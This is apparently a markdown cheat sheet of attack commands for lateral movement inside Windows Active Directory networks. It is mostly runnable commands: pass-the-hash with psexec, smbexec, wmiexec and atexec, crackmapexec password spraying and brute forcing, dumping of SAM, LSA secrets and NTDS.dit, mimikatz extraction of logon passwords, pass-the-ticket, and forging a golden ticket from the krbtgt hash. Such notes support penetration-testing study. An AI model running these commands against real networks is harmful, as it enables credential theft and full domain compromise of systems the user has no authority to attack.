 # lateral movement

#### Lateral Movement in Active Directory

#### psexec - smbexec - wmiexec - atexec

* Here we can pass the credentials or even hash, depending on what we have

```bash
[psexec.py](<http://psexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```

* the user should have write access to Admin share then only we can get session

```bash
[psexec.py](<http://psexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[smbexec.py](<http://smbexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[smbexec.py](<http://smbexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[wmiexec.py](<http://wmiexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[wmiexec.py](<http://wmiexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[atexec.py](<http://atexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip> "command"  #we passed full hash here
```

#### winrs

```bash
winrs -r:TARGET_IP -u:USERNAME -p:PASSWORD "command"
```

* run this and check whether the user has access on the machine, if you have access then you can get shell
* run this on windows session

#### crackmapexec

* If stuck make use of Wiki

```bash
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp}  #supported services

crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success  # Bruteforce
crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success | grep '[+]'  # Filter successful logins
crackmapexec smb SUBNET_OR_IP -u user.txt -p 'password' --continue-on-success  #Password spraying
crackmapexec smb TARGET_IP -u 'user' -p 'password' --shares  #lists all shares, provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --disks
crackmapexec smb DC_IP -u 'user' -p 'password' --users  #we need to provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sessions  #active logon sessions
crackmapexec smb DC_IP -u 'user' -p 'password' --pass-pol  #dumps password policy
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sam  #SAM hashes
crackmapexec smb TARGET_IP -u 'user' -p 'password' --lsa  #dumping lsa secrets
crackmapexec smb DC_IP -u 'user' -p 'password' --ntds  #dumps NTDS.dit file
crackmapexec smb DC_IP -u 'user' -p 'password' --groups {groupname}  #we can also provide --group and it lists all groups
crackmapexec smb TARGET_IP -u 'user' -p 'password' -x 'command'  #For executing commands

#crackmapexec modules
crackmapexec smb -L  #listing modules
crackmapexec smb -M mimikatz --options  #shows the required options for the module
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz  #runs default command
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug sekurlsa::logonpasswords exit'
```

#### Pass the ticket

```
mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-CORP.LOCAL.kirbi
klist
dir \\\\dc01.corp.local\\c$
```

#### Golden Ticket

```
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /ptt
misc::cmd
klist
dir \\\\dc01.corp.local\\c$
```

***

